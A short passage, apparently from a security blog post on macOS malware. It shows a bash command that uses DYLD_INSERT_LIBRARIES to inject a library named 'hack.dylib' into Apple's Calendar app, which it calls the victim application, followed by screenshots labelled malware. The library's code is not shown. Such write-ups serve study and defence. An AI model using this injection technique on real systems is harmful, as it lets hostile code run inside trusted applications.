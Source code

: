 
Calendar app as a victim application:    

```bash
cd /System/Applications/Calendar.app/Contents/MacOS/
DYLD_INSERT_LIBRARIES=~/Desktop/hack.dylib ./Calendar
```

![malware](/assets/images/159/2025-06-19_11-23.png)
{:class="img-responsive"}    

![malware](/assets/images/159/2025-06-19_11-23_1.png){:class="img-responsive"}    
